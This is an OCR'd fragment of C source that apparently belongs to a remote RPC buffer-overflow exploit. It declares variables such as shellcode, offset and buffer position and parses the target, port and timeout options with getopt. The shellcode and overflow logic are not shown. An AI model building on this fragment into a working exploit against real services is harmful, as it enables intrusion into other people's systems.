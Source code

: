     int type = -1;

    int usetcp = 0;

    int timeout = 5;

    int wipe = 9;

    int offset = 600;

    int buflen = 1024;

    char *target;

    char *sc = shellcode;

    u_short port = 0;

    u_long bufpos = 0;

 

    int sockp = RPC_ANYSOCK;

 

    extern char *optarg;

    extern int optind;

    extern int opterr;

    opterr = 0;

 

 

    while((ch = getopt(argc, argv, "tp:a:l:o:w:s:d:")) != -1)

    {

        switch(ch)

        {

            case 't': usetcp = 1; break;

            case 'p': sscanf(optarg, "%hu", &port); break;

            case 'a': sscanf(optarg, "%lx", &bufpos); break;

            case 'l': buflen = atoi(optarg); break;

            case 'o': offset = atoi(optarg); break;

            case 's': timeout = atoi(optarg); break;

            case 'w': wipe = atoi(optarg); break;

            case 'd': type = atoi(optarg); break;

            default : usage(argv[0]);

        }

    }
